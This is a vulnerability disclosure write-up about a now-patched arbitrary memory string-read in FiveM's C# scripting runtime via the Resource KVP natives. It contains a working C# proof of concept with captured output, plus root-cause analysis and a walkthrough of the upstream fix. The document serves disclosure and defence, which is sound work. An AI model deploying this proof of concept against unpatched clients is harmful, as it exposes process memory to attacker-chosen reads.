


# FiveM Arbitrary Memory Read via Resource KVP

Arbitrary-address string read primitive in FiveM's C# scripting runtime, abusing
unvalidated native pointer arguments through the Resource KVP API.

**Status:** patched. Fix written in [`798fdd0`](https://github.com/citizenfx/fivem/commit/798fdd00b511a10b21d6c074094df9ba1a73d08e), merged in [`0105063`](https://github.com/citizenfx/fivem/commit/0105063b0394b1b9d085c917a8dc9c9abf0a620f) (`Merge (mr-962)`).

---

## About

I'm a co-founder of [FiveGuard](https://fiveguard.net), a FiveM anti-cheat project
focused on improving security across the platform.

A lot of my research comes from digging into FiveM internals, documenting
vulnerabilities, and figuring out how things that should probably be impossible
somehow work perfectly fine.

This is another example.

---

## TL;DR

Before the fix, the C# native invocation layer forwarded managed arguments to
native functions without checking that pointer-typed parameters actually received
a pointer. A managed `ulong` could therefore land in a slot the native treats as a
`char*`, and the native would dereference it as string data.

Resource KVP is just a convenient trigger: `SET_RESOURCE_KVP_NO_SYNC` takes a
string value, so passing a raw address there — then reading it back with
`GET_RESOURCE_KVP_STRING` — turns a key-value store into a string reader at an
attacker-chosen address.

This is a **string read**, not a raw binary dump. You get back whatever
printable/NUL-terminated data lives at the address, if it's mapped and readable.

---

## Background

I came across this while documenting other FiveM native-argument issues. Testing
how different natives handled their arguments, I noticed a numeric value could be
passed into a parameter expecting a string pointer without anything objecting. KVP
just happened to be the cleanest way to get the dereferenced result back out.

Same flavor as a few other FiveM memory-read primitives I've poked at — the actual
"why" is in the next section.

---

## Proof of Concept

```csharp
using CitizenFX.Core;
using CitizenFX.Core.Native;

namespace MyResource.Client
{
    public class ClientMain : BaseScript
    {
        string ModuleMemRead(ulong address)
        {
            // 'address' is a raw ulong forced into the native's string-pointer slot.
            Function.Call(Hash.SET_RESOURCE_KVP_NO_SYNC, "k0001", address);

            string value = Function.Call<string>(
                Hash.GET_RESOURCE_KVP_STRING,
                "k0001"
            );

            if (value != null)
                Function.Call(Hash.DELETE_RESOURCE_KVP_NO_SYNC, "k0001");

            return value;
        }

        public ClientMain()
        {
            Debug.WriteLine(ModuleMemRead(0x7ff7ffff0000));
        }
    }
}
```

The value argument to `SET_RESOURCE_KVP_NO_SYNC` is interpreted as a string
pointer. Supplying a controlled address causes the native to read memory at that
location; `GET_RESOURCE_KVP_STRING` returns the result.

### Verified output

Captured on a pre-fix client (`FiveM_b3258_GTAProcess.exe`). The resource read the
process base address and a string at a controlled address:

```text
base module: 140700026470400
sending
string read at (623821709456): 000000913E393210??>?
Instantiated instance of script MyResource.Client.ClientMain.
```

Cross-check — the printed base matches the real module base, so the read returned a
genuine in-process address, not garbage:

```text
140700026470400  ==  0x7FF747190000
```

`0x7FF747190000` is exactly the base of `FiveM_b3258_GTAProcess.exe` as reported by
the process module list, confirming the primitive reads real process memory at an
attacker-chosen address.



> **Scope note:** this is a *string* read — the bytes returned depend on the address
> being mapped, readable, and holding suitable NUL-terminated data (note the trailing
> `??>?` where the data stops being printable). It is not a raw binary dump, and the
> result does not imply the primitive still works on current (post-fix) builds.

---

## Root Cause

It all lives in `InvokeInternal` (`code/client/clrcore/Native.cs`): it handed the
managed `InputArgument[]` straight to the script context without vetting any of
them, so nothing stopped a scalar `ulong` from sitting in a slot meant for a
pointer. From there the native does what natives do — trusts the slot and reads it.

```text
C# resource
    │  Function.Call(SET_RESOURCE_KVP_NO_SYNC, "k0001", 0x7ff7ffff0000)
    ▼
InputArgument[] (ulong where a char* is expected)
    ▼
Native.InvokeInternal  ── no pointer-type validation (pre-fix)
    ▼
Native dereferences the ulong as char*
    ▼
Resource KVP stores the bytes read at that address
    ▼
GET_RESOURCE_KVP_STRING returns them as a string
```

---

## The Fix

Three files changed (`+113`):

| File | Change |
| --- | --- |
| `code/client/clrcore/Native.cs` | one line: calls the new validator before dispatch |
| `code/client/clrcore/PointerArgumentSafety.cs` | `+67` — the validator and its lookup tables |
| `ext/natives/codegen_out_cs.lua` | `+45` — generates per-native argument masks |

**1. Validation is now invoked up front.** `InvokeInternal` gains a single guard
at the top:

```csharp
PointerArgumentSafety.CheckArguments((ulong)nativeHash, args);
```

**2. Per-native masks say which arguments must be pointers.** Codegen
(`codegen_out_cs.lua`) walks every native's arguments and emits two 64-bit masks
per native via `AddPointerArgumentMasks(hash, pointerMask, stringMask)`. An
argument is flagged as a pointer when it is a `charPtr`/`func` (strings), a
`networkHandle`, an `object`, or otherwise pointer-typed — plus a hardcoded
`pointerOverrides` table for natives the type data doesn't cover (e.g.
`SET_STATE_BAG_VALUE/2`, the `*_EVENT_INTERNAL` family, `_GET_ALL_VEHICLES/0`).
Only natives with a non-zero pointer mask get an entry.

**3. `CheckArguments` rejects scalars in pointer slots.** For each argument whose
pointer-mask bit is set, the value is allowed through only if it is a null pointer,
an `OutputArgument`, or (where the string-mask bit is set) an actual `string`.
Anything else — including a bare `ulong` — throws:

```csharp
throw new ArgumentException(
    $"native {hash:X16}: arg[{index}] expected a managed pointer "
    + (expectString ? "or string " : ""));
```

`IsNullPointer` treats `null`, `IntPtr.Zero`, zero-valued enums, and any numeric
zero as a null pointer, so legitimately-null arguments still pass.

**Scope worth noting:** the whole `CheckArguments` body is wrapped in
`#if GTA_FIVE`, so this guard is compiled into the FiveM client specifically, and
it only fires for natives that received a pointer mask at codegen time. The PoC
targets client-side KVP natives, which is consistent with that scope.

So the primitive dies because the raw `ulong` no longer survives the trip into the
native — it's rejected as "expected a managed pointer or string."

**Confirmed against the KVP native.** Running the PoC on a post-fix client throws
exactly where expected:

```text
native 000000000CF9A2FF: arg[1] expected a managed pointer or string
```

`arg[1]` is the *value* argument of `SET_RESOURCE_KVP_NO_SYNC` — the same slot the
exploit coerced. The `or string` wording means that argument is set in **both** the
pointer and string masks, i.e. codegen classified it as a `charPtr`. So the fix is
not just generically present; it specifically covers the exact argument this
primitive relied on, which is why a raw `ulong` there now throws instead of being
dereferenced.

---

## Timeline

- Fix authored: [`798fdd0`](https://github.com/citizenfx/fivem/commit/798fdd00b511a10b21d6c074094df9ba1a73d08e) — *feat: check pointer arguments in c# script context invokation logic*
- Merged: [`0105063`](https://github.com/citizenfx/fivem/commit/0105063b0394b1b9d085c917a8dc9c9abf0a620f) — *Merge (mr-962)*

The fix existed as a written commit well before it landed on the main line — the gap
here is between "patch written" and "patch merged." Once it was actually merged, the
primitive was dead, so this goes out now rather than earlier.

---

## Defensive Value

Here's the part I actually like: a bug meant for reading memory turned into a
defender's tool. An arbitrary memory read from inside a managed resource is normally
off the table in FiveM's C# environment — but with this one, I could look at the
game's own address space from a spot anti-cheat usually can't reach.

Concretely, it let me:

- **scan loaded modules for cheat signatures** — reading memory to look for the
  tell-tale byte patterns cheats leave behind, such as the traces of the hooks they
  install into the game;
- **sweep low memory regions** — scanning across the low address ranges in strides
  (stepping rather than reading every byte, since a cheat DLL like this is fairly
  large), then, once readable/mapped regions were found, resolving the interesting
  data by RVA from there. These are ranges a legitimate resource has no reason to
  touch.

The screenshot below is a scan locating exactly that kind of target: a cheat
("redengine") whose anchors and allocations sit in that low-memory range. Here the
cheat is the *subject* of the scan, not the tool.

The broader point: the same mechanic that made the exploit possible also exposes a
durable detection surface. The behavior class — a resource resolving module bases,
reading back structured data from addresses, or sweeping low-memory ranges it has
no reason to read — is observable regardless of which native carries it, which
makes it a signal that survives variants rather than a one-off patch.



## Related Research

- [FiveM Arbitrary Memory Read PoC](https://github.com/Szpachlan/FiveM-Arbitrary-Memory-Read-POC)
- [FiveM Arbitrary Memory Read PoC V2](https://github.com/Szpachlan/FiveM-Arbitrary-Memory-Read-POC-V2)
- [FiveM Legacy MonoRT2 Memory Read Research](https://github.com/Szpachlan/FiveM-Legacy-MonoRT2-Memory-Read-Research)
- [FiveM V8 Arbitrary File Read Research](https://github.com/Szpachlan/FiveM-V8-Arbitrary-File-Read-Research)

---

## Disclaimer

For security research, education, and historical documentation. The issue is fixed
upstream; this does not assert the primitive still works on current builds. Test
only in environments you are authorized to test.
